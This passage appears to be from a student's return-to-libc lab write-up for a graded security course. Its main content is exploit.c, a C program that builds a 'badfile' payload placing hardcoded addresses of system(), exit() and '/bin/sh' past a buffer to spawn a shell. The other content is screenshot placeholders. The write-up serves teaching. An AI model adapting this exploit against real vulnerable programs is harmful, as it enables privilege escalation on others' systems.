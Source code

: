   ![1586092589094](assets/1586092589094.png)

### 4.5 Exploiting the Vulnerability [6 Marks]

*  The code for `exploit.c`

  ```c
  /* exploit.c */
  
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  int main(int argc, char **argv)
  {
  	char buf[250];
  	FILE *badfile;
  
  	badfile = fopen("./badfile", "w");
  
  	/* You need to decide the addresses and
  	the values for X, Y, Z. The order of the following
  	three statements does not imply the order of X, Y, Z.
  	Actually, we intentionally scrambled the order. */
  	*(long *) &buf[0x1e + 12] = 0xbffffe1c ; // "/bin/sh"
  	*(long *) &buf[0x1e + 4] = 0xb7e42da0 ; // system()
  	*(long *) &buf[0x1e + 8] = 0xb7e369d0 ; // exit()
  
  	fwrite(buf, sizeof(buf), 1, badfile);
  	fclose(badfile);
      return 0;
  }
  ```

* Result:

  ![1586167645494](assets/1586167645494.png)
